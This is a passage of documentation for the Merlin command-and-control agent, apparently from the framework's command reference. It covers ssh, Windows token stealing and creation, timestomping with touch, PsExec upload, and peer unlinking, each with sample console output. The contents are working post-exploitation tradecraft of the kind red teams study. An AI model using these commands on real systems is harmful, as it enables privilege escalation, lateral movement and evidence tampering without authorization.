    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» socks stop
    [-] Successfully stopped SOCKS listener for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 on 127.0.0.1:9055


ssh
---

.. note::
    USAGE: ``ssh username password host:port program [args]``

The ``ssh`` command connects to target host over the SSH protocol, executes the provided command, and returns the results.

.. warning::
    This command is insecure by design because it does not validate the remote host's public key

``ssh <username> <password> <host:port> <program> [<args>]``

.. code-block:: text

    Merlin[agent][fbef5b71-50bb-4d36-8a1b-2edf233eb578]» ssh rastley S3cretPassw0rd 192.168.100.123:22 /bin/sh -c \"ip address show eth0\"
    [-] Created job pinIDJXDTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job pinIDJXDTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Connected to 192.168.100.123:22 at 192.168.100.123:22 with public key ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJytZseMSAsUU6OE2X4TC518fcF3yxgFYIgYp4+xT9pa9n5449gcsKT/eO3hx9NXAtyOHImg/Ff8kdWs52bU3SA=
    0: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:z3:ff:91 brd ff:ff:ff:ff:ff:ff
        inet 192.168.100.70/24 brd 192.168.100.255 scope global dynamic noprefixroute eth0
           valid_lft 1781sec preferred_lft 1781sec

status
------

.. note::
    USAGE: ``status``

The ``status`` command is used to simply print if the Merlin Agent is Active, Delayed, or Dead to the screen. This becomes useful when you come back to Merlin after a couple of hours or if you want to see if your shell has died.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» status
    Active
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

steal_token
-----------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``steal_token PID``

The ``steal_token`` command steals and uses a Windows access token from another process.
This command is an alias for the :ref:`token steal` command.

The steal command obtains a handle to a remote process’ access token, duplicates it through the DuplicateTokenEx
Windows API, and subsequently uses it to perform future post-exploitation commands.

References:

    * https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex"

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» steal_token 1320
    [-] Created job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+] Successfully stole token from PID 1320 for user ACME\\Administrator with LogonID 0x39DF3C

token
-----

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token {make | privs | rev2self | steal | whoami} [options]``

The ``token`` command is used to perform various operations with Windows `access tokens <https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens>`_.
The following commands are available:

* :ref:`token make`
* :ref:`token privs`
* :ref:`token rev2self`
* :ref:`token steal`
* :ref:`token whoami`

Merlin keeps track of when a Windows access token was created or stolen. If there is a created or stolen token, it will be used with the following commands:

* :ref:`cd`
* :ref:`download`
* :ref:`execute-assembly`
* :ref:`execute-pe`
* :ref:`execute-shellcode`
* :ref:`invoke-assembly`
* minidump
* :ref:`kill`
* :ref:`ls`
* :ref:`ps`
* :ref:`rm`
* :ref:`run`
* :ref:`shell`
* :ref:`touch`
* :ref:`upload`

The following commands will make the Windows `CreateProcessWithTokenW <https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw>`_ API call:

* :ref:`execute-assembly`
* :ref:`execute-pe`
* :ref:`execute-shellcode`
* :ref:`run`
* :ref:`shell`

.. _token make:

make
^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token make DOMAIN\USERNAME PASSWORD``

The ``make`` command is use to create a new Windows access token with the Windows `LogonUserW <https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonuserw>`_ API call. The token is created with a type ``9 - NewCredentials`` `logon type <https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types>`_. This is the equivalent of using ``runas.exe /netonly``.

.. warning::
    Type 9 - NewCredentials tokens only work for **NETWORK** authenticated activities

.. note::
    Commands such as ``token whoami`` will show the username for the process and not the created token due to the logon type, but will reflect the new Logon ID

``token make <DOMAIN\\User> <password>``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token make ACME\\Administrator S3cretPassw0rd
    [-] Created job piloeJbKPp for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job piloeJbKPp for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully created a Windows access token for ACME\Administrator with a logon ID of 0xA703CF0

.. _token privs:

privs
^^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token privs [PID]``

The ``privs`` command enumerates the privilege associated with either the current process or a remote process.
If the current process has a created or stolen, and process ID argument is not provided, then the applied token's
privileges will be enumerated.

``token privs [<PID>]``

Current process:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token privs
    [-] Created job rBIkAAWkIr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job rBIkAAWkIr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Process ID 6892 access token integrity level: High, privileges (24):
            Privilege: SeIncreaseQuotaPrivilege, Attribute:
            Privilege: SeSecurityPrivilege, Attribute:
            Privilege: SeTakeOwnershipPrivilege, Attribute:
            Privilege: SeLoadDriverPrivilege, Attribute:
            Privilege: SeSystemProfilePrivilege, Attribute:
            Privilege: SeSystemtimePrivilege, Attribute:
            Privilege: SeProfileSingleProcessPrivilege, Attribute:
            Privilege: SeIncreaseBasePriorityPrivilege, Attribute:
            Privilege: SeCreatePagefilePrivilege, Attribute:
            Privilege: SeBackupPrivilege, Attribute:
            Privilege: SeRestorePrivilege, Attribute:
            Privilege: SeShutdownPrivilege, Attribute:
            Privilege: SeDebugPrivilege, Attribute: SE_PRIVILEGE_ENABLED
            Privilege: SeSystemEnvironmentPrivilege, Attribute:
            Privilege: SeChangeNotifyPrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeRemoteShutdownPrivilege, Attribute:
            Privilege: SeUndockPrivilege, Attribute:
            Privilege: SeManageVolumePrivilege, Attribute:
            Privilege: SeImpersonatePrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeCreateGlobalPrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeIncreaseWorkingSetPrivilege, Attribute:
            Privilege: SeTimeZonePrivilege, Attribute:
            Privilege: SeCreateSymbolicLinkPrivilege, Attribute:
            Privilege: SeDelegateSessionUserImpersonatePrivilege, Attribute:

Remote process:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token privs 8156
    [-] Created job BAKadQhkOc for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job BAKadQhkOc for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Process ID 8156 access token integrity level: Low, privileges (2):
            Privilege: SeChangeNotifyPrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeIncreaseWorkingSetPrivilege, Attribute:

.. _token rev2self:

rev2self
^^^^^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token rev2self``

The ``rev2self`` command leverages the `RevertToSelf <https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-reverttoself>`_
Windows API function and releases, or drops, any access token that have been created or stolen.

.. note::
    There is an unregistered ``rev2self`` command alias that can be use from the agent root menu prompt

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token rev2self
    [-] Created job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully reverted to self and dropped the impersonation token


.. _token steal:

steal
^^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token steal PID``

The ``steal`` command obtains a handle to a remote process' access token, duplicates it through the
`DuplicateTokenEx <https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex>`_
Windows API, and subsequently uses it to perform future post-exploitation commands.

.. note::
    There is an unregistered ``steal_token`` command alias that can be use from the agent root menu prompt

``token steal <PID>``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token steal 1320
    [-] Created job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully stole token from PID 1320 for user ACME\Administrator with LogonID 0x39DF3C

.. _token whoami:

whoami
^^^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token whoami``

The ``whoami`` command leverages the Windows `GetTokenInformaion <https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-gettokeninformation>`_ API call to return information
about both the process and thread Windows access token. This information includes:

* Username
* Token ID
* Logon ID
* Privilege Count
* Group Count
* Token Type
* Token Impersonation Level
* Integrity Level

``token whoami``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token whoami
    [-] Created job UZXXIILnYD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job UZXXIILnYD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Process (Primary) Token:
            User: ACME\rastley,Token ID: 0x9CA475E,Logon ID: 0x26C3A6,Privilege Count: 24,Group Count: 14,Type: Primary,Impersonation Level: Anonymous,Integrity Level: High
    Thread (Primary) Token:
            User: NT AUTHORITY\SYSTEM,Token ID: 0x9CC08EB,Logon ID: 0x3E7,Privilege Count: 28,Group Count: 4,Type: Primary,Impersonation Level: Impersonation,Integrity Level: System

.. _touch:

touch
-----

.. note::
    USAGE: ``touch sourceFilePath destinationFilePath``

The ``touch`` command is used to duplicate a timestamp from one file to another. This technique is also known as timestomp

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ls -la /tmp/deleteMe.txt
    [-] Created job hEXYmbbGpW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job hEXYmbbGpW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] -rw-rw-r-- 1 rastley rastley 0 Aug  2 20:11 /tmp/deleteMe.txt

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» touch /etc/passwd /tmp/deleteMe.txt
    [-] Created job Canvuiuoxj for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job Canvuiuoxj for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] File: /tmp/deleteMe.txt
    Last modified and accessed time set to: 2020-09-16 07:05:18.245022776 -0400 EDT

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ls -la /tmp/deleteMe.txt
    [-] Created job gTFZbcgeJW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job gTFZbcgeJW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] -rw-rw-r-- 1 rastley rastley 0 Sep 16  2020 /tmp/deleteMe.txt

.. _unlink:

unlink
------

.. note::
    USAGE: ``unlink childAgentID``

The ``unlink`` command tasks the parent Agent to disconnect from the child peer-to-peer Agent.
Depending on the child Agent type and configuration, the child Agent will remain running and listening for new connections.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» link list
    [-] Created job pJpbkMqphK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-28T11:59:32Z
    [-] Results of job pJpbkMqphK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-28T11:59:54Z
    [+] Peer-to-Peer Links (1)
    0. tcp-bind:e718067d-bf44-4715-aae3-8c1142114e3d:127.0.0.1:7777

    Merlin[agent][d02fff99-e37d-4220-b430-a1c199ad3bcb]» unlink e718067d-bf44-4715-aae3-8c1142114e3d
    [-] Created job uLhDoRVtPY for agent d02fff99-e37d-4220-b430-a1c199ad3bcb at 2023-07-28T12:00:27Z
    [-] Results of job uLhDoRVtPY for agent d02fff99-e37d-4220-b430-a1c199ad3bcb at 2023-07-28T12:00:41Z
    [+] Successfully unlinked from tcp-bind Agent e718067d-bf44-4715-aae3-8c1142114e3d and closed the network connection

.. _upload:

upload
------

.. note::
    USAGE: ``upload sourceFilePath destinationFilePath``

The ``upload`` command is used to upload a file *from* the Merlin server *to* the host where the Merlin agent is running. The command is called by proving the location of the file on the Merlin server followed by the location to save the file on the host where the Merlin agent is running.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» upload C:\\SysinternalsSuite\\PsExec.exe C:\\Windows\\PsExec.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job vXJsZdZLPP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

uptime
------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``uptime``

The ``uptime`` command uses the Windows API GetTickCount64 method to determine how long the host has been running.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» uptime
    [-] Created job GJwrXttowA for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job GJwrXttowA for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    System uptime: 853h31m14.921s

verbose
-------

.. note::
    USAGE: ``verbose``

The ``verbose`` command is a switch used to enable or disable verbose output to the console.

.. code-block::

    Merlin» verbose
    [+] 2023-10-19T12:40:44Z Verbose output enabled
    Merlin» verbose
    [+] 2023-10-19T12:40:46Z Verbose output disabled
    Merlin»